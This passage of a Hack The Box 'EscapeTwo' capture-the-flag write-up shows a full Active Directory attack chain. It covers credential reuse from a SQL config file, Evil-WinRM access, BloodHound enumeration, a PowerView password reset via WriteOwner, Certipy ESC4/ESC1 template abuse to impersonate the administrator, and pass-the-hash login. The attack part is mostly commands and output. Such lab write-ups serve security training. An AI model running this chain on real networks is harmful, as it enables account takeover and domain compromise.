SQLSVCPASSWORD="WqSZAF6CysDQbGb3"
SQLSYSADMINACCOUNTS="SEQUEL\Administrator"
SECURITYMODE="SQL"
SAPWD="MSSQLP@ssw0rd!"
ADDCURRENTUSERASSQLADMIN="False"
TCPENABLED="1"
NPENABLED="1"
BROWSERSVCSTARTUPTYPE="Automatic"
IAcceptSQLServerLicenseTerms=True
PS C:\SQL2019\ExpressAdv_ENU> 

```

Great! We found a password: `WqSZAF6CysDQbGb3`. Let's check the Users directory:

```python
PS C:\> cd Users 
PS C:\Users> ls

    Directory: C:\Users

Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----       12/25/2024   3:10 AM                Administrator                                                         
d-r---         6/9/2024   4:11 AM                Public                                                                
d-----         6/9/2024   4:15 AM                ryan                                                                  
d-----         6/8/2024   4:16 PM                sql_svc 
```

We see a `ryan` user. Let's try the password we found with Evil-WinRM:

```bash
┌──(chjwoo㉿hackbox)-[/mnt/…/cybersec/hackthebox/machines/escapetwo]
└─$ evil-winrm -i dc01.sequel.htb -u ryan -p WqSZAF6CysDQbGb3
                                        
Evil-WinRM shell v3.9
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\ryan\Documents> whoami
sequel\ryan
*Evil-WinRM* PS C:\Users\ryan\Documents> 
```

Success! Let's grab the user flag:

```bash
*Evil-WinRM* PS C:\Users\ryan\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\ryan\Desktop> ls

    Directory: C:\Users\ryan\Desktop

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---       12/17/2025   4:06 AM             34 user.txt

*Evil-WinRM* PS C:\Users\ryan\Desktop> cat user.txt
23cb5f97cece2e18af772e5[REDACTED]
```

Let's check our privileges as ryan:

```bash
*Evil-WinRM* PS C:\Users\ryan\Desktop> whoami /all

USER INFORMATION
----------------

User Name   SID
=========== ============================================
sequel\ryan S-1-5-21-548670397-972687484-3496335370-1114

GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                          Attributes
=========================================== ================ ============================================ ==================================================
Everyone                                    Well-known group S-1-1-0                                      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access     Alias            S-1-5-32-574                                 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                     Mandatory group, Enabled by default, Enabled group
SEQUEL\Management Department                Group            S-1-5-21-548670397-972687484-3496335370-1602 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10                                  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled

USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.

```

At this stage, there was nothing particularly interesting to exploit. I started to feel stuck, so I decided to switch tactics. Since we already had valid credentials for the user **ryan**, turning to **BloodHound** made sense as the next logical step.

For setting up BloodHound, I simply followed the official **BloodHound community documentation**. [Link Docs](https://bloodhound.specterops.io/get-started/quickstart/community-edition-quickstart)

```bash
┌──(chjwoo㉿hackbox)-[~/tools/bloodhound]
└─$ ./bloodhound-cli up                                                                                      
[+] Checking the status of Docker and the Compose plugin...
[+] Docker and the Compose plugin checks have passed
[+] Bringing up the BloodHound environment
[+] Running `docker` to bring up the containers with /home/chjwoo/.config/bloodhound/docker-compose.yml...
 Container bloodhound-bloodhound-1 Recreate 
 Container bloodhound-bloodhound-1 Recreated 
 Container bloodhound-app-db-1 Starting 
 Container bloodhound-graph-db-1 Starting 
 Container bloodhound-app-db-1 Started 
 Container bloodhound-graph-db-1 Started 
 Container bloodhound-app-db-1 Waiting 
 Container bloodhound-graph-db-1 Waiting 
 Container bloodhound-app-db-1 Healthy 
 Container bloodhound-graph-db-1 Healthy 
 Container bloodhound-bloodhound-1 Starting 
 Container bloodhound-bloodhound-1 Started 
```

Open `http://localhost:8080/ui/login` and log in using the credentials you created earlier. If you’ve forgotten them, you can easily reset the password by running `./bloodhound-cli resetpwd`.


Next, we need to collect data for BloodHound. To do this, I used the following command:

```bash
┌──(chjwoo㉿hackbox)-[~/…/hackthebox/machines/escapetwo/bloodhound]
└─$ bloodhound-python -d sequel.htb -u ryan -p 'WqSZAF6CysDQbGb3' -ns 10.129.232.128 -c All             
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: sequel.htb
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc01.sequel.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc01.sequel.htb
INFO: Found 10 users
INFO: Found 59 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC01.sequel.htb
INFO: Done in 00M 04S
                                                                                                                                         
┌──(chjwoo㉿hackbox)-[~/…/hackthebox/machines/escapetwo/bloodhound]
└─$ ls -l  
total 147
-rwxrwxrwx 1 root root  3727 Dec 17 22:20 20251217222034_computers.json
-rwxrwxrwx 1 root root 25049 Dec 17 22:20 20251217222034_containers.json
-rwxrwxrwx 1 root root  3060 Dec 17 22:20 20251217222034_domains.json
-rwxrwxrwx 1 root root  3924 Dec 17 22:20 20251217222034_gpos.json
-rwxrwxrwx 1 root root 88921 Dec 17 22:20 20251217222034_groups.json
-rwxrwxrwx 1 root root  1889 Dec 17 22:20 20251217222034_ous.json
-rwxrwxrwx 1 root root 22881 Dec 17 22:20 20251217222034_users.json

```

Once the data collection is complete, the generated files can be imported into the **BloodHound file ingestor** for further analysis.


Open the Explorer view, where we can mark the users we have already compromised: **rose**, **ryan**, and **sa (SQL_SVC)**.


>**Note:** If you encounter an error when marking a user as *owned*, make sure you are using **BloodHound CE version 8.4.2**.

Next, we move on to deeper exploration to uncover more insights. Open the **Cypher** tab—this is where we can analyze and explore the relationships and correlations between nodes within the environment.


Only the **Administrator** user is a member of the **Domain Admins** group. From here, we can continue our analysis by exploring the **shortest path from the owned objects**.


### Key Takeaways

- **rose** is a standard **Domain User** with no elevated privileges.
- **ryan**, while also a **Domain User**, has access to **Remote Management Users** and **Management Department** groups, and importantly, holds **WriteOwner** privileges over the **CA_SVC** user.
- **SQL_SVC**, another **Domain User**, has access to **SQLSERVER** and **SQLRUSERGROUP**.

Based on this analysis, our focus should shift to **ryan**, as the **WriteOwner** permission over **CA_SVC** presents a clear path for further privilege escalation.


At this point, **CA_SVC** is a member of the **CERT PUBLISHER** group, which itself belongs to the **DENIED RODC PASSWORD REPLICATION** group. For our purposes, we will focus specifically on **CERT PUBLISHER**.

Since we have **WriteOwner** privileges over the **CA_SVC** user, a potential next step is to take advantage of this permission by attempting to change the account’s password and fully take over the user.

```bash
┌──(chjwoo㉿hackbox)-[/mnt/…/cybersec/hackthebox/machines/escapetwo]
└─$ cp /usr/share/windows-resources/powersploit/Recon/PowerView.ps1 .
```

Next, copy **`PowerView.ps1`**, which we will upload to the **ryan** host using **Evil-WinRM**.

```bash
┌──(chjwoo㉿hackbox)-[/mnt/…/cybersec/hackthebox/machines/escapetwo]
└─$ evil-winrm -i dc01.sequel.htb -u ryan -p WqSZAF6CysDQbGb3
                                        
Evil-WinRM shell v3.9
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\ryan\Documents> upload PowerView.ps1
                                        
Info: Uploading /mnt/hgfs/cybersec/hackthebox/machines/escapetwo/PowerView.ps1 to C:\Users\ryan\Documents\PowerView.ps1
                                        
Data: 1027036 bytes of 1027036 bytes copied
                                        
Info: Upload successful!
*Evil-WinRM* PS C:\Users\ryan\Documents> Import-Module .\PowerView.ps1
*Evil-WinRM* PS C:\Users\ryan\Documents> Set-DomainObjectOwner -Identity "ca_svc" -OwnerIdentity "ryan"
*Evil-WinRM* PS C:\Users\ryan\Documents> Add-DomainObjectAcl -TargetIdentity "ca_svc" -Rights ResetPassword -PrincipalIdentity "ryan"
*Evil-WinRM* PS C:\Users\ryan\Documents> $pass = ConvertTo-SecureString "Passwd112233!" -AsPlainText -Force
*Evil-WinRM* PS C:\Users\ryan\Documents> Set-DomainUserPassword -Identity "ca_svc" -AccountPassword $pass
*Evil-WinRM* PS C:\Users\ryan\Documents> 

```

At this stage, I attempted to log in as **ca_svc** using **Evil-WinRM**.

```bash
┌──(chjwoo㉿hackbox)-[/mnt/…/cybersec/hackthebox/machines/escapetwo]
└─$ evil-winrm -i dc01.sequel.htb -u ca_svc -p 'Password112233!'
                                        
Evil-WinRM shell v3.9
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\> whoami
                                        
Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError
                                        
Error: Exiting with code 1

```

However, this attempt failed because the account does not have **Remote Management Users** permissions. As an alternative, we can try accessing the system via **SMB** instead.

```bash
┌──(chjwoo㉿hackbox)-[/mnt/…/cybersec/hackthebox/machines/escapetwo]
└─$ nxc smb dc01.sequel.htb -u ca_svc -p 'Passwd112233!'     
SMB         10.129.232.128  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB         10.129.232.128  445    DC01             [+] sequel.htb\ca_svc:Passwd112233! 
```

The password change was successfully confirmed.

Next, we explored the **ca_svc** user in **BloodHound**, where we observed the following:


The **CA_SVC** account only holds permissions as a **Domain User** and a member of **CERT PUBLISHERS**. This raises an important question: what actions can we leverage through the **CERT PUBLISHERS** group?

## Privilege Escalation

**CERT PUBLISHERS** is part of **Active Directory Certificate Services (ADCS)** and is responsible for issuing and managing digital certificates within an Active Directory environment. These certificates are commonly used for encryption, authentication, and identity verification.

While researching this role, I came across several blog references that suggest potential techniques we can try to leverage **CERT PUBLISHERS** for privilege escalation.

[Cato CTRL™ Threat Research: Preventing Privilege Escalation via Active Directory Certificate Services (ADCS)](https://www.catonetworks.com/blog/cato-ctrl-preventing-privilege-escalation-via-active-directory-certificate-services-adcs/)

We can take advantage of **Privilege Escalation via Active Directory Certificate Services (ADCS)**.

To proceed, we first need to identify vulnerable certificate templates, which can be done using **Certipy**.

```bash
┌──(chjwoo㉿hackbox)-[/mnt/…/cybersec/hackthebox/machines/escapetwo]
└─$ certipy-ad find -u 'ca_svc@sequel.htb' -p 'Passwd112233!' -dc-ip 10.129.232.128 -vulnerable -stdout
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Finding issuance policies
[*] Found 15 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'sequel-DC01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Successfully retrieved CA configuration for 'sequel-DC01-CA'
[*] Checking web enrollment for CA 'sequel-DC01-CA' @ 'DC01.sequel.htb'
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : sequel-DC01-CA
    DNS Name                            : DC01.sequel.htb
    Certificate Subject                 : CN=sequel-DC01-CA, DC=sequel, DC=htb
    Certificate Serial Number           : 152DBD2D8E9C079742C0F3BFF2A211D3
    Certificate Validity Start          : 2024-06-08 16:50:40+00:00
    Certificate Validity End            : 2124-06-08 17:00:40+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : SEQUEL.HTB\Administrators
      Access Rights
        ManageCa                        : SEQUEL.HTB\Administrators
                                          SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
        ManageCertificates              : SEQUEL.HTB\Administrators
                                          SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
        Enroll                          : SEQUEL.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : DunderMifflinAuthentication
    Display Name                        : Dunder Mifflin Authentication
    Certificate Authorities             : sequel-DC01-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectAltRequireDns
                                          SubjectRequireCommonName
    Enrollment Flag                     : PublishToDs
                                          AutoEnrollment
    Extended Key Usage                  : Client Authentication
                                          Server Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 2
    Validity Period                     : 1000 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2025-12-18T13:05:28+00:00
    Template Last Modified              : 2025-12-18T13:05:28+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : SEQUEL.HTB\Enterprise Admins
        Full Control Principals         : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Cert Publishers
        Write Owner Principals          : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Cert Publishers
        Write Dacl Principals           : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Cert Publishers
        Write Property Enroll           : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
    [+] User Enrollable Principals      : SEQUEL.HTB\Cert Publishers
    [+] User ACL Principals             : SEQUEL.HTB\Cert Publishers
    [!] Vulnerabilities
      ESC4                              : User has dangerous permissions.

```

At this stage, we identified a critical finding: the **ca_svc** user has dangerous permissions related to **ESC4**. The vulnerable certificate template in this case is **DunderMifflinAuthentication**.

[ADCS Attack Series: Abusing ESC4 via Template ACLs for Privilege Escalation](https://medium.com/r3d-buck3t/adcs-attack-series-abusing-esc4-via-template-acls-for-privilege-escalation-98320f0da59a)

At this point, we can proceed directly by modifying the certificate template to make it exploitable by the **ca_svc** account.

```bash
┌──(chjwoo㉿hackbox)-[/mnt/…/cybersec/hackthebox/machines/escapetwo]
└─$ certipy-ad template -u ca_svc@sequel.htb \               
  -password 'Passwd112233!' \
  -template 'DunderMifflinAuthentication' \
  -dc-ip 10.129.232.128 \
  -save-configuration template-backup.json \
  -write-default-configuration
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Saving current configuration to 'template-backup.json'
File 'template-backup.json' already exists. Overwrite? (y/n - saying no will save with a unique filename): y
[*] Wrote current configuration for 'DunderMifflinAuthentication' to 'template-backup.json'
[*] Saving current configuration to 'template-backup.json'
File 'template-backup.json' already exists. Overwrite? (y/n - saying no will save with a unique filename): y
[*] Wrote current configuration for 'DunderMifflinAuthentication' to 'template-backup.json'
[*] Updating certificate template 'DunderMifflinAuthentication'
[*] Replacing:
[*]     nTSecurityDescriptor: b'\x01\x00\x04\x9c0\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x14\x00\x00\x00\x02\x00\x1c\x00\x01\x00\x00\x00\x00\x00\x14\x00\xff\x01\x0f\x00\x01\x01\x00\x00\x00\x00\x00\x05\x0b\x00\x00\x00\x01\x01\x00\x00\x00\x00\x00\x05\x0b\x00\x00\x00'
[*]     flags: 66104
[*]     pKIDefaultKeySpec: 2
[*]     pKIKeyUsage: b'\x86\x00'
[*]     pKIMaxIssuingDepth: -1
[*]     pKICriticalExtensions: ['2.5.29.19', '2.5.29.15']
[*]     pKIExpirationPeriod: b'\x00@9\x87.\xe1\xfe\xff'
[*]     pKIExtendedKeyUsage: ['1.3.6.1.5.5.7.3.2']
[*]     pKIDefaultCSPs: ['2,Microsoft Base Cryptographic Provider v1.0', '1,Microsoft Enhanced Cryptographic Provider v1.0']
[*]     msPKI-Enrollment-Flag: 0
[*]     msPKI-Private-Key-Flag: 16
[*]     msPKI-Certificate-Name-Flag: 1
[*]     msPKI-Certificate-Application-Policy: ['1.3.6.1.5.5.7.3.2']
Are you sure you want to apply these changes to 'DunderMifflinAuthentication'? (y/N): y
[*] Successfully updated 'DunderMifflinAuthentication'

```

We updated the **DunderMifflinAuthentication** certificate template to make it vulnerable to **ESC1**, which allows us to impersonate another user.

```bash
┌──(chjwoo㉿hackbox)-[/mnt/…/cybersec/hackthebox/machines/escapetwo]
└─$ certipy-ad req -u ca_svc@sequel.htb \
  -password 'Passwd112233!' \                
  -ca 'sequel-DC01-CA' \
  -dc-ip 10.129.232.128 \
  -template 'DunderMifflinAuthentication' \
  -upn administrator@sequel.htb
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 19
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator@sequel.htb'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'

```

Once the template was modified, we requested a certificate for the **Domain Administrator**

using the altered template. This enabled us to impersonate **administrator@sequel.htb**

```bash
┌──(chjwoo㉿hackbox)-[/mnt/…/cybersec/hackthebox/machines/escapetwo]
└─$ certipy-ad auth -pfx administrator.pfx -dc-ip 10.129.232.128
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator@sequel.htb'
[*] Using principal: 'administrator@sequel.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sequel.htb': aad3b435b51404eeaad3b435b51404ee:7a8d4e04986afa8ed4060f75e5a0b3ff

```

Afterward, we dumped the **administrator.pfx** file to extract the **NT Hash**.
With the hash in hand `7a8d4e04986afa8ed4060f75e5`, we immediately used it to remotely access the system.

```bash
┌──(chjwoo㉿hackbox)-[/mnt/…/cybersec/hackthebox/machines/escapetwo]
└─$ evil-winrm -i dc01.sequel.htb -u administrator -H 7a8d4e04986afa8ed4060f75e5a0b3ff 
                                        
Evil-WinRM shell v3.9
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
sequel\administrator

```

Finally, we were able to retrieve the flag from the **Administrator’s desktop**.

```bash
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> ls

    Directory: C:\Users\Administrator\Desktop

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---       12/17/2025   4:06 AM             34 root.txt

*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt
61e78517cff1b2d56284c2c[REDACTED]
```

## Flag

```bash
User's Flag: 23cb5f97cece2e18af772e5[REDACTED]
Root's Flag: 61e78517cff1b2d56284c2c[REDACTED]
```